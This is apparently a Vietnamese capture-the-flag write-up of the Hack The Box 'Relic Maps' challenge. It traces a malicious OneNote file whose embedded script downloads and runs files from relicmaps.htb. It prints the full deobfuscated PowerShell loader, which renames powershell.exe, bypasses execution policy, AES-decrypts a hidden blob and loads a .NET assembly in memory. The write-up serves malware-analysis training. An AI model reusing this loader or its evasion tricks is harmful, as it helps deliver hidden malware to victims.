








# Challenge Relic Maps



## 1. Đầu vào challenge

Challenge cung cấp file `relicmaps.one`.



Khi kiểm tra nhanh file `relicmaps.one` bằng `strings -a`, ta thấy bên trong file OneNote có nhúng một đoạn mã dạng HTML/HTA.



Đoạn này sử dụng VBScript và WMI (`Win32_Process`, `Win32_ProcessStartup`) để tạo tiến trình mới ở chế độ ẩn (`ShowWindow = 0`).

Phần quan trọng nằm ở hàm `Action()`. Hàm này gọi `powershell Invoke-WebRequest` để tải thêm các payload từ server `relicmaps.htb`, cụ thể:

- Tải file `topsecret-maps.one` từ đường dẫn `/uploads/soft/topsecret-maps.one` về thư mục `%TEMP%` với tên `tsmap.one`, sau đó mở file này
- Tải file `window.bat` từ đường dẫn `/get/.../window.bat` về `%TEMP%` với tên `system32.bat`, sau đó thực thi file `.bat`

Vậy giờ tải 2 file `window.bat` và `topsecret-maps.one` về, sau đó đọc file bat trước.

---

## 2. Phân tích `window.bat`

Thấy file đang bị obfuscate.



Deobfuscate thì thu được:



```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "%~0.exe"
cls
cd "%~dp0"
"%~nx0.exe" -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::ReadAllText('%~f0').Split([Environment]::NewLine);

foreach ($YiLGW in $eIfqq) { 
    if ($YiLGW.StartsWith(':: ')) { 
        $VuGcO = $YiLGW.Substring(3); 
        break; 
    }; 
};

$uZOcm = [System.Convert]::FromBase64String($VuGcO);

$BacUA = New-Object System.Security.Cryptography.AesManaged;
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$BacUA.Key = [System.Convert]::FromBase64String('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');
$BacUA.IV = [System.Convert]::FromBase64String('2hn/J717js1MwdbbqMn7Lw==');

$Nlgap = $BacUA.CreateDecryptor();
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);
$Nlgap.Dispose();
$BacUA.Dispose();

$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);
$bTMLk = New-Object System.IO.MemoryStream;
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);
$NVPbn.CopyTo($bTMLk);
$NVPbn.Dispose();
$mNKMr.Dispose();
$bTMLk.Dispose();

$uZOcm = $bTMLk.ToArray();

$gDBNO = [System.Reflection.Assembly]::Load($uZOcm);
$PtfdQ = $gDBNO.EntryPoint;
$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```

### Nhận xét

Đầu tiên, script copy `powershell.exe` từ thư mục hệ thống:

```text
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

sang một file mới có tên dựa trên chính file `.bat`, tức `%~0.exe`. Đây là kỹ thuật đổi tên PowerShell để tránh việc command line hiển thị trực tiếp `powershell.exe`.

Tiếp theo, script chuyển thư mục làm việc về `%~dp0`, tức thư mục chứa file batch hiện tại, rồi chạy file `.exe` vừa tạo với các tham số:

- `-noprofile`: không load profile PowerShell
- `-windowstyle hidden`: chạy cửa sổ ẩn
- `-ep bypass`: bypass `ExecutionPolicy`
- `-command`: thực thi đoạn PowerShell inline

Đoạn PowerShell bên trong đọc lại chính file batch bằng `ReadAllText('%~f0')`, tách dòng comment bắt đầu bằng `::`, sau đó lấy blob Base64 dài trong file. Blob này được decode bằng `FromBase64String`, giải mã bằng `AES-CBC` với padding `PKCS7`, rồi giải nén bằng `GZip`. Kết quả cuối cùng được load bằng:

```powershell
[System.Reflection.Assembly]::Load()
```

và gọi:

```powershell
EntryPoint.Invoke()
```

Như vậy, `window.bat` là một loader nhiều lớp:

- Batch obfuscation
- PowerShell loader
- Base64 decode
- AES decrypt
- GZip decompress
- `.NET assembly` load in-memory

---

## 3. Mô phỏng lại quá trình decrypt của PowerShell loader

Sử dụng script để mô phỏng lại quá trình decrypt của PowerShell loader:

```python
from pathlib import Path
import base64
import gzip
from Crypto.Cipher import AES

bat_path = Path("window.bat")
out_path = Path("payload.bin")

key_b64 = "0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20="
iv_b64  = "2hn/J717js1MwdbbqMn7Lw=="

blob = None
for line in bat_path.read_text(errors="ignore").splitlines():
    if line.startswith(":: ") and len(line) > 100:
        blob = line[3:].strip()
        break

key = base64.b64decode(key_b64)
iv = base64.b64decode(iv_b64)
ciphertext = base64.b64decode(blob)

plain = AES.new(key, AES.MODE_CBC, iv).decrypt(ciphertext)

pad = plain[-1]
plain = plain[:-pad]
payload = gzip.decompress(plain)

out_path.write_bytes(payload)
```

Script này làm đúng các bước của loader:

- đọc blob Base64 được giấu trong comment `::`
- base64 decode thành ciphertext
- giải mã `AES-CBC`
- bỏ `PKCS7 padding`
- `gzip decompress`
- ghi kết quả ra `payload.bin`

---

## 4. Mở `payload.bin` để lấy flag

Cuối cùng thu được file `payload.bin`. Mở file bằng ILSpy:



Từ đây lần theo entry point thì tìm được flag:

```text
HTB{0neN0te_iT'5_4_tr4P!}
```



---

## 5. Flag

```text
HTB{0neN0te_iT'5_4_tr4P!}
```

---

## 6. Flow


